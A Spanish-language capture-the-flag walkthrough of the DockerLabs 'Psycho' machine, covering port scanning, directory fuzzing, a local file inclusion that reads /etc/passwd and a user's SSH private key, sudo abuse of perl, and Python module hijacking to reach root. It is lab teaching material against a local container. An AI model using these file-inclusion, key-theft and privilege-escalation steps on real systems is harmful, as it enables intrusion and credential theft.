# 🧠 Máquina: Psycho

**Nivel:** Fácil

**Plataforma:** DockerLabs

**Objetivo:** Obtener acceso como root explotando vulnerabilidades web y de configuración.

---

## 📦 Despliegue de la Máquina

Descargamos y descomprimimos la máquina:

```bash
unzip psycho.zip
sudo bash auto_deploy.sh psycho.tar
```

![](/Psycho/Imagenes/Logo.png)

![](/Psycho/Imagenes/Despliegue.jpeg)

Comprobamos la conectividad con `ping`:

```bash
ping 172.17.0.2
```

📸 ![](/Psycho/Imagenes/Ping.jpeg)

---

## 🔍 Enumeración

### Escaneo de Puertos

Usamos `nmap` para detectar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

📸 ![](/Psycho/Imagenes/Puertos.jpeg)

Usamos un script personalizado `extractPorts` para facilitar el siguiente escaneo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

📸 ![](/Psycho/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Visitamos la página principal en el puerto 80:

📸 ![](/Psycho/Imagenes/Pagina.jpeg)

### Fuzzing con Gobuster

Ejecutamos `gobuster` para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

📸 ![](/Psycho/Imagenes/Gobuster.jpeg)

Se encontraron dos rutas relevantes:

* `/assets`
  📸 ![](/Psycho/Imagenes/Directorio.jpeg)

* `/index.php/assets#` (mediante fuzzing manual)
  📸 ![](/Psycho/Imagenes/Oculto.jpeg)

### Análisis de Imagen

Descargamos una imagen y la analizamos con `exiftool` buscando metadatos sensibles, pero no se encontró información útil:

```bash
exiftool background.jpg
```

📸 ![](/Psycho/Imagenes/Metadatos.jpeg)

---

## 💥 Vulnerabilidad LFI (Local File Inclusion)

En el código fuente de la página se observó un posible error, que explotamos con LFI:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/etc/passwd" | grep "sh$"
```

📸 ![](/Psycho/Imagenes/Usuarios.jpeg)

Esto nos revela usuarios del sistema con shell válido, entre ellos:
`root`, `ubuntu`, `vaxei`, `luisillo`

---

## 🔑 Robo de Clave SSH

Aprovechamos la vulnerabilidad LFI para extraer la clave privada de SSH del usuario `vaxei`:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/home/vaxei/.ssh/id_rsa"
```

📸 ![](/Psycho/Imagenes/curlKey.jpeg)
📸 ![](/Psycho/Imagenes/Key.jpeg)

Guardamos la clave como `id_rsa` y le damos permisos adecuados:

```bash
chmod 600 id_rsa
```

Nos conectamos vía SSH:

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

📸 ![](/Psycho/Imagenes/webshell.jpeg)

---

## 📂 Revisión Inicial del Sistema

Inspeccionamos archivos visibles:

```bash
ls -l
cat file.txt
```

Archivo encontrado: `file.txt`
Contenido:

```
kflksdfsad  
asdsadsad  
asdasd  
```

---

## 🚀 Escalada de Privilegios

Verificamos los privilegios `sudo` del usuario `vaxei`:

```bash
sudo -l
```

📸 ![](/Psycho/Imagenes/Escalada.jpeg)

El resultado indica que `vaxei` puede ejecutar `perl` como el usuario `luisillo` sin contraseña:

```
(luisillo) NOPASSWD: /usr/bin/perl
```

### Escalamos a `luisillo`:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

---

## 🧑‍💻 Escalada a Root

Ya como `luisillo`, encontramos que el script `/opt/paw.py` llama a un archivo `subprocess.py`.

Creamos un archivo `subprocess.py` con el siguiente contenido malicioso:

```python
import os
os.system('bash')
```

Ejecutamos el script:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

Esto lanza una shell como **root**.

📸 ![](/Psycho/Imagenes/root.jpeg)

---

## ✅ Conclusiones

* Se descubrió una vulnerabilidad de inclusión de archivos locales (LFI).
* Se logró extraer una clave privada SSH.
* Se obtuvo acceso SSH como usuario normal (`vaxei`).
* Se escaló a otro usuario (`luisillo`) mediante `sudo` mal configurado.
* Finalmente, se escaló a **root** al abusar de un script que ejecutaba código arbitrario en Python.
